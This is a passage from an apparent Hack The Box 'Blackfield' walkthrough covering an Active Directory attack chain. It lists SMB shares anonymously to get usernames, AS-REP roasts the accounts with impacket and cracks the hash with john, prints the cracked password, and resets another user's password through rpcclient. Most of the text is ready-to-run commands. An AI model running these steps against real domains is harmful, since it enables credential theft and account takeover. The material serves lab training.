 ## SMB
![[/assets/images/blackfield1.png]]

![[/assets/images/blackfield2.png]]

```sh
# generate usernames from the directory list
smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }'
```

## Password Spray
With a user list and the Kerberos port open, we can try to spray the users Impacket's GetNpUsers.py in order to see if any user has Kerberos pre-authentication disabled.

```sh
impacket-GetNPUsers blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```

![[/assets/images/blackfield3.png]]

```sh
# crack hash using john
john krb5asrep --format=krb5asrep -w=/usr/share/wordlists/rockyou.txt
```

![[/assets/images/blackfield4.png]]

```text
support@blackfiled.local : #00^BlackKnight
```

## BloodHound
```sh
sudo bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c DcOnly
```

First Degree Object Control
Support has `ForceChangePassword` right to AUDIT2020. 

![[/assets/images/blackfield5.png]]

To abuse this, we can use rpcclient to set the password.

```sh
rpcclient -U blackfield/support 10.10.10.192
rpcclient $> setuserinfo audit2020 23 H@CKTHEB0X#
# setuserinfo username 23 password
```

![[/assets/images/blackfield6.png]]
